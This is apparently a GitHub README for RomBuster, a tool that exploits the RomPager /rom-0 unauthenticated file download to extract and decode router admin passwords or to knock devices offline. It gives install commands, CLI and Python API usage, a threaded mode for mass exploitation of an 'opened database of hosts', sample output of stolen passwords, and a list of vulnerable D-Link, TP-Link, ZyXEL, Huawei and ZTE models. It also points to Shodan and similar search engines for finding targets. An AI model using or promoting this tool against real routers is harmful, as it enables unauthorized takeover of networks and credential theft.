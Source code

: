 # RomBuster

RomBuster is a RomPager exploitation tool that allows to disclosure network device admin password or perform DoS attack on device.

## Features

* Exploits vulnerabilities in most popular router models with RomPager installation such as `D-Link`, `Zyxel`, `TP-Link` and `Huawei`.
* Optimized to exploit multiple routers at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [--threads] [--output OUTPUT] [--input INPUT] [--address ADDRESS]

RomBuster is a RomPager exploitation tool that allows to disclosure network device admin password or perform DoS attack on device.

optional arguments:
  -h, --help         show this help message and exit
  --threads          Use threads for fastest work.
  --output OUTPUT    Output result to file.
  --input INPUT      Input file of addresses.
  --address ADDRESS  Single address.
```

### Examples

Let's hack my router just for fun.

```shell
rombuster --address 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to device...
[*] (192.168.2.1) - accessing device rom...
[*] (192.168.2.1) - extracting admin password...
[i] (192.168.2.1) - password: SuperHardPassword999
```

Let's try to use opened database of hosts with `--threads` for fast exploitation.

```shell
rombuster --threads --input routers.txt --output passwords.txt
```

It will exploit all devices in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to device...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to device...
[*] (x.x.x.x) - accessing device rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## RomBuster API

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code:

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by netword address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from rombuster import RomBuster

rombuster = RomBuster()

device = rombuster.connect('192.168.2.1')
print(rombuster.exploit(device))
```

**output:**

```shell
{'admin': 'SuperHardPassword999'}
```

## Vulnerability details

Vulnerability that exploits **RomBuster** exists nowadays in some popular routers all over the world. This vulnerability allows you to download `/rom-0` RomPager configuration file without authentication. **RomBuster** downloads this file, decodes it and giving you password of the router `admin`. Pretty easy way to access main network interface - router.

**Vulnerable RomPager versions:**

* **RomPager/4.07**

**Vulnerable devices:**

* **AirLive WT-2000ARM**
* **D-Link DSL-2520U**
* **D-Link DSL-2640R**
* **D-Link DSL-2740R**
* **Huawei 520 HG**
* **Huawei 530 TRA**
* **Pentagram Cerberus P 6331-42**
* **TP-Link TD-8816**
* **TP-Link TD-8817**
* **TP-LINK TD-8840T**
* **TP-Link TD-W8901G**
* **TP-Link TD-W8951ND**
* **TP-Link TD-W8961ND**
* **ZTE ZXV10 W300**
* **ZTE ZXDSL 831CII**
* **ZynOS**
* **ZyXEL ES-2024**
* **ZyXEL Prestige P-2602HW**
* **ZyXEL Prestige 782R**

**NOTE:** All these devices still online and can be found at `Shodan`, `Censys` or `Zoomeye`, that means that vulnerability is not completely patched (very sad).
